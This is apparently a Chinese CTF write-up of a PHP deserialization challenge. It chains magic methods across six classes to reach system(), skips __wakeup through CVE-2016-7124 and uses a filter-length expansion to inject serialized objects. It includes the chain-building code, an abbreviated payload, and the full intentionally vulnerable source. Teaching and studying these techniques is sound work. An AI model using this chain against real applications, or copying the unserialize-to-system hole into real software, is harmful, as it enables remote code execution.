



---
date: 2026-10-29
slug: geek2026-pop-chain
categories:
  - 反序列化
  - POP 链
---

# Geek_Challenge2026 — POP 链与长度扩张绕过

> **题目类型**：Web — PHP 反序列化（POP 链）+ 过滤后长度扩张
>
> **题目地址**：Geek_Challenge 2026（实例已关闭）
>
> **Flag**：`SYC{82a8d7ba-d362-4f0e-a49c-22abe6a72b32}`

---

## 题目概述

题目接收 `user` 和 `sign` 两个参数，把它们塞进 A 类后序列化、过一遍过滤器，再反序列化：

```php
$entry = new A($u, $s);
$ser = serialize($entry);
$escaped = filter($ser);
unserialize($escaped);
```

过滤器只有一句话：

```php
function filter($data) {
    return str_replace("admin", "hacker", $data);
}
```

`admin` 5 个字符，`hacker` 6 个字符 —— **每替换一次，字符串就多一个字节，但序列化串里的长度数字不会跟着变。**

七个类的骨架（完整源码见文末）：

```text
A  __destruct  →  echo "…" . $this->sign          （把对象当字符串拼接）
B  __toString  →  (string)$func()                 （把对象当函数调用）
C  __invoke    →  $this->target->$m()             （调用不存在的方法）
D  __call      →  return $this->next->$p          （读取不存在的属性）
E  __get       →  $sink->flag_trigger = $cmd      （写私有属性）
F  __set       →  system($value)                  ← 代码执行在这里
```

---

## 解题过程

### Step 1：先找能执行代码的地方

**审计代码，先找能执行代码的地方，然后倒着推。**

全文只有一个真正的执行点：

```php
class F {
    private $flag_trigger;
    public function __set($name, $value) {
        if ($name !== 'flag_trigger') return;
        echo "RCE:<br>";
        system($value);          // ← 终点
    }
}
```

所以要满足两个条件：`$name === 'flag_trigger'`，且 `$value` 是我能控制的字符串。

### Step 2：倒推 —— 谁能写 F 的私有属性

`$flag_trigger` 是 `private`，从类外部写它就会触发 `__set`。谁在写它？看 E：

```php
class E {
    public $sink;
    public $cmd;
    public function __get($name) {
        if (!($this->sink instanceof F)) return;
        $this->sink->flag_trigger = $this->cmd;   // ← 写私有属性
    }
}
```

`E::__get` 里写了 `$this->sink->flag_trigger` —— 只要 `sink` 是 F 的实例，就会走到 `__set`，`$value` 就是 `$this->cmd`。

**所以 `cmd` 就是我的命令，从这里传进去。**

### Step 3：倒推 —— 谁读 E 的不存在属性

`__get` 是在**访问不可访问属性**时触发的。看 D：

```php
class D {
    public $next;
    public $property;
    public function __call($name, $arguments) {
        if (!is_object($this->next) || !is_string($this->property)) return '';
        $p = $this->property;
        return $this->next->$p;      // ← 读 $next 的属性 $p
    }
}
```

**只要 `property` 写成 E 里不存在的名字（比如 `flag`），`$this->next->$p` 就会触发 `E::__get`。**

E 的两个属性是 `sink` 和 `cmd`，所以 `property` 不能是这两个 —— 我用的是 `flag`。

### Step 4：倒推 —— 谁调 D 的不存在方法

`__call` 在调用**不存在的方法**时触发。看 C：

```php
class C {
    public $target;
    public $method;
    public function __invoke() {
        if (!is_object($this->target) || !is_string($this->method)) return '';
        if (!method_exists($this->target, '__call') || method_exists($this->target, $this->method)) return '';
        $m = $this->method;
        return $this->target->$m();      // ← 调 $target 的方法 $m
    }
}
```

这里有个**反向条件**，最容易看错：

```
必须 method_exists($target, '__call')        → target 得是有 __call 的类（就是 D）
必须 !method_exists($target, $method)        → 这个方法名不能真的存在
```

**所以 `method` 随便写一个 D 里没有的名字就行**（我用 `flag`），这样才会落到 `__call`。

### Step 5：倒推 —— 谁把对象当函数调用

`__invoke` 在**对象被当成函数调用**时触发。看 B：

```php
class B {
    public $action;
    public function __toString() {
        if (!is_object($this->action) || !method_exists($this->action, '__invoke')) return '';
        $func = $this->action;
        return (string)$func();          // ← 对象当函数调
    }
}
```

**`action` 放 C 的实例，`$func()` 就会触发 `C::__invoke`。**

### Step 6：倒推 —— 谁把 B 当字符串

**`__toString` 在对象被当做字符串处理时触发。** 看 A：

```php
class A {
    public $user;
    public $sign;
    public function __destruct() {
        echo "Welcome to Geek_Challenge2026!<br>";
        echo "Profile signature: " . $this->sign . "<br>";   // ← 字符串拼接
    }
}
```

**`$this->sign` 用 `.` 拼接，把对象当字符串 —— 把 B 的实例放进去，就会触发 `B::__toString`。**

到这里整条链就闭合了：

```
A::__destruct  →  B::__toString  →  C::__invoke  →  D::__call  →  E::__get  →  F::__set  →  system()
```

### Step 7：构造 pop 链

**这道题完全按照从上往下的顺序触发，所以正着讲就是 A → B → C → D → E → F。**



```php
$a = new A();
$a->user = 'admin';
$a->sign = new B();
$a->sign->action = new C();
$a->sign->action->target = new D();
$a->sign->action->method = 'flag';
$a->sign->action->target->next = new E();
$a->sign->action->target->property = 'flag';
$a->sign->action->target->next->sink = new F();
$a->sign->action->target->next->cmd = 'env';
```

### Step 8：绕过 `__wakeup`

**在反序列化时会先调用 `__wakeup`，然后它会把 `$this->action` 置为空：**

```php
class B {
    public function __wakeup() {
        echo "唉？你怎么醒了，回去吧你<br>";
        $this->action = null;      // ← 链从这里就断了
    }
}
```

**所以这里最后输出序列化串的时候，记得把 B 的属性数加 1 绕过 `wakeup` 方法。**

```text
实际只有 1 个属性，却写成 2      O:1:"B":2:{s:6:"action";O:1:"C":…}
```

**原理是 CVE-2016-7124：属性数大于实际个数时，PHP 会跳过 `__wakeup`。只在 PHP < 5.6.25 / 7.0.10 有效 —— 这题能过，说明目标 PHP 就在这个范围内。**

### Step 9：为什么是 192 —— 长度扩张

前面序列化一次、过滤一次，问题出在**过滤改变了字符串长度，但长度数字没变**。



设 **A = `admin` 的个数**，**b = 注入的那串**（`";s:4:"sign";O:1:"B":2:{…`）：

```text
过滤前   声明长度 N = 5A + len(b)
过滤后   实际长度   = 6A + len(b)      （每个 admin 多 1 字节）
解析器   只读 N 个字节 → 落在 5A + len(b) 这个位置
```

**注入的 `";` 在 b 的开头，也就是过滤后的 `6A` 处。要让解析器正好读到这里，需要：**

```text
5A + len(b) = 6A     →     A = len(b)
```

**所以「192」不是随便挑的 —— 它同时是 b 的长度和 admin 的个数。**

**这也是为什么换命令的时候别忘记改 admin 的个数：命令变长，b 变长，A 就得跟着变。**

> **长度别自己数**，用 `echo strlen($b)` 让 PHP 输出，我上面脚本里就是这么做的。

### Step 10：执行拿 flag

```text
?user=<192 个 admin>" ;s:4:"sign";O:1:"B":2:{…}&sign=1
```



```text
Welcome to Geek_Challenge2026!
？！强强？！
666，还有第二关
马上就到了
还有一步
RCE:
SYC{82a8d7ba-d362-4f0e-a49c-22abe6a72b32}
```

**注意两点：**

```
① 输出里没有"唉？你怎么醒了" —— 说明 __wakeup 确实被跳过了
② 用 env 命令不一定能直接看到 flag，可以先 ls / 再 cat /f*，命令随便换，记得同步改 A
```

---

## 解题思路总结

```
审计源码，先找唯一的执行点：F::__set 里的 system($value)
  → 谁能写 F 的私有属性 → E::__get（写 flag_trigger）
    → 谁读 E 的不存在属性 → D::__call（读 $next->$p）
      → 谁调 D 的不存在方法 → C::__invoke（调 $target->$m）
        → 谁把对象当函数调 → B::__toString（(string)$func()）
          → 谁把 B 当字符串拼 → A::__destruct（echo "…" . $sign）
            → 链成型：A → B → C → D → E → F
              → 属性数 +1 跳过 __wakeup
                → admin 个数 = 注入串长度，让解析器读到注入的 ";
                  → system 执行 → env → flag
```

### 漏洞原理

**① 魔术方法是"自动触发"的，不是被调用的**

**`__destruct` / `__toString` / `__invoke` / `__call` / `__get` / `__set` 都不需要显式调用 —— 只要你把对象放在那个位置，PHP 自己会触发。**

**反序列化的价值就在于：我能完全控制每个属性的值和类型。**

**② 每一层都有前置检查，但检查的是"类型"不是"意图"**

| 层 | 检查什么 | 怎么满足 |
|---|---|---|
| B | `action` 是对象且**有** `__invoke` | 放 C 的实例 |
| C | `target` 是对象、`method` 是字符串、`target` **有** `__call`、且**没有**同名方法 | 放 D 的实例，方法名随便写 |
| D | `next` 是对象、`property` 是字符串 | 放 E 的实例 |
| E | `sink` 是 F 的实例 | 放 F 的实例 |
| F | `$name === 'flag_trigger'` | 由 E 固定写入这个属性名 |

**③ 长度扩张：过滤器和序列化器看到的长度不一样**

```text
serialize()  按"过滤前"的长度写进串
filter()     把 5 字节的 admin 换成 6 字节的 hacker
unserialize() 按串里写的长度去读 —— 读的位置被"多出来的字节"整体推后
```

**于是我可以控制"解析器停在哪" —— 停在注入的 `";` 上，后面那一串就成了新的结构。**

### 关键知识点

| 知识点 | 说明 |
|---|---|
| 找终点 | 审计先找执行点（`system` / `eval` / `include` / `call_user_func`），再倒着推 |
| POP 链 | 利用属性把对象串起来，靠魔术方法的自动触发一层层走到终点 |
| 反向条件 | `!method_exists($target, $method)` —— 要求方法名**不存在**，最容易看错 |
| `__wakeup` 绕过 | 序列化串里属性数写大于实际个数（CVE-2016-7124，PHP < 5.6.25 / 7.0.10） |
| 长度扩张 | 过滤器把短串换成长串，序列化串里的长度数字不变 → 解析位置错位 |
| 长度对齐 | `admin` 的个数必须等于注入串的长度，解析器才会正好停在注入的 `";` 上 |
| 工具 | 长度用 `strlen()` 输出，不要手数 |

#### PHP 魔术方法的触发时机

**（这段是原理的地基 —— 记住"在什么时机被自动调用"，POP 链就是按时机拼起来的。）**

| 方法 | 触发时机 |
|---|---|
| `__construct()` | 用于在创建对象时自动触发：当使用 `new` 关键字实例化一个类时，会自动调用该类的 `__construct()` 方法 |
| `__destruct()` | 用于在对象被销毁时自动触发：对象被销毁、引用计数减少为零时触发 |
| `__sleep()` | 序列化 `serialize()` 函数会检查类中是否存在一个魔术方法 `__sleep()`。如果存在，该方法会先被调用，然后才执行序列化操作。此功能可以用于清理对象，并返回一个包含对象中所有应被序列化的变量名称的数组 |
| `__wakeup()` | 用于在反序列化对象时自动调用：`unserialize()` 会检查是否存在一个 `__wakeup()` 方法，如果存在，则会先调用 `__wakeup()` 方法 |
| `__toString()` | 在对象被当做字符串处理时自动调用，比如 `echo`、`==`、`preg_match()` |
| `__invoke()` | 在对象被当做函数处理时自动调用 |
| `__call()` | `__call($method, $args)` 在调用一个不存在的方法时触发，`$args` 是数组的形式 |
| `__callStatic()` | 在静态调用或调用成员常量时，使用的方法不存在时触发 |
| `__set()` | 在给不存在的成员属性赋值时触发 |
| `__isset()` | 在对不可访问属性使用 `isset()` 或 `empty()` 时会被触发 |
| `__unset()` | 在对不可访问属性使用 `unset()` 时会被触发 |
| `__clone()` | 当使用 `clone` 关键字拷贝完成一个对象后就会触发 |
| `__get()` | 当尝试访问不可访问属性时会被自动调用 |

---

??? note "完整源码"

    ```php
    <?php
    header('Content-Type: text/html; charset=utf-8');
    highlight_file(__FILE__);
    error_reporting(0);

    class A {
        public $user;
        public $sign;

        public function __construct($u, $s) {
            $this->user = $u;
            $this->sign = $s;
        }

        public function __destruct() {
            echo "Welcome to Geek_Challenge2026!<br>";
            echo "Profile signature: " . $this->sign . "<br>";
        }
    }

    class B {
        public $action;

        public function __wakeup() {
            echo "唉？你怎么醒了，回去吧你<br>";
            $this->action = null;
        }

        public function __toString() {
            echo "？！强强？！<br>";
            if (!is_object($this->action) || !method_exists($this->action, '__invoke')) {
                return '';
            }
            $func = $this->action;
            return (string)$func();
        }
    }

    class C {
        public $target;
        public $method;

        public function __invoke() {
            echo "666，还有第二关<br>";
            if (!is_object($this->target) || !is_string($this->method)) {
                return '';
            }
            if (!method_exists($this->target, '__call') || method_exists($this->target, $this->method)) {
                return '';
            }
            $m = $this->method;
            return $this->target->$m();
        }
    }

    class D {
        public $next;
        public $property;

        public function __call($name, $arguments) {
            echo "马上就到了<br>";
            if (!is_object($this->next) || !is_string($this->property)) {
                return '';
            }
            $p = $this->property;
            return $this->next->$p;
        }
    }

    class E {
        public $sink;
        public $cmd;

        public function __get($name) {
            echo "还有一步<br>";
            if (!($this->sink instanceof F)) {
                return;
            }
            $this->sink->flag_trigger = $this->cmd;
        }
    }

    class F {
        private $flag_trigger;

        public function __set($name, $value) {
            if ($name !== 'flag_trigger') {
                return;
            }
            echo "RCE:<br>";
            system($value);
        }
    }

    function filter($data) {
        return str_replace("admin", "hacker", $data);
    }

    if (isset($_GET['user']) && isset($_GET['sign'])) {
        $u = $_GET['user'];
        $s = $_GET['sign'];

        $entry = new A($u, $s);
        $ser = serialize($entry);

        $escaped = filter($ser);

        unserialize($escaped);
    } else {
        echo "w(ﾟДﾟ)w";
    }
    ?>
    ```
